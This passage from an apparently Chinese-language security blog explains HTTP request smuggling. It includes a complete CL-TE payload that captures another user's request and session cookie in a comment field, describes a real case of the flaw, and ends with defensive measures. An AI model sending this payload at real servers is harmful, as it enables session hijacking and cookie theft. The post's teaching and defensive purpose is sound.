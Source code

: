 ```http

x=1
```

#### 窃取用户请求

利用走私攻击捕捉用户请求数据包，窃取cookie

我们在发送评论处的api接口构造请求包如下

发送以下数据包

```http
POST / HTTP/1.1
Host: example.com
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,/;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: session=7fnaaemuD32ZqUPyB6EGVA8vOL8wwz8p
Content-Type: application/x-www-form-urlencoded
Content-Length: 343
Transfer-Encoding: chunked

0
POST /post/comment HTTP/1.1
Host: example.com
Content-Length: 600
Content-Type: application/x-www-form-urlencoded
Cookie: session=7fnaaemuD32ZqUPyB6EGVA8vOL8wwz8p
csrf=aeITUnejzQ7XRUTUiEWl4X6ckwPt8TWc&postId=2&name=1&email=123%40qq.com&website=https%3A%2F%2F
```

成功把用户的请求拼接到走私请求的comment参数上，如下图

![20210915145632](https://gitee.com/ye_xi_bai/blogimage/raw/master/blogimages20210915145632.png)

### 案例

![20210915151139](https://gitee.com/ye_xi_bai/blogimage/raw/master/blogimages20210915151139.png)

该案例利用的是CL-TE的攻击方式。根据RFC，当Content-Length和Transfer-Encoding两个标头同时出现在同一请求包时，Transfer-Encoding始终被优先处理。但是，如果Transfer-Encoding标头格式错误，则前端服务器和后端服务器之间的对请求的解释可能会有所不同。在该站点上发现的CLTE问题是，在请求包中Transfer-Encoding 和:之间加多一个空格，使该字段的格式为非标准值，此时前端服务器依据RPC规范，优先处理Content-Length，而后端服务器并没严格遵守RPC规范，以Transfer-Encoding为依据进行处理数据包。

于是用户的正常请求被拼接到X字段，而X请求头非标准请求头，故忽略，而该用户的cookie字段也被拼接到了该走私的请求上，随之跟随响应流量被返回给攻击者。

## 如何防御

HTTP请求走私漏洞出现在当前端服务器通过同一网络连接向后端服务器转发多个请求时后端连接使用的协议导致两台服务器对请求数据边界的解析不一致的情况下。所以可以用如下的方法防御HTTP走私攻击：

+ 前端服务器对前端输入规范化
+ 使用HTTP2.0，因为此协议可防止请求之间的边界模糊
+ 后端服务器丢弃非正常请求
+ 禁用后端连接的重用，以便通过单独的网络连接发送每个后端请求
+ 前端后端采用相同的服务器程序，保证采用同样的数据解析方式
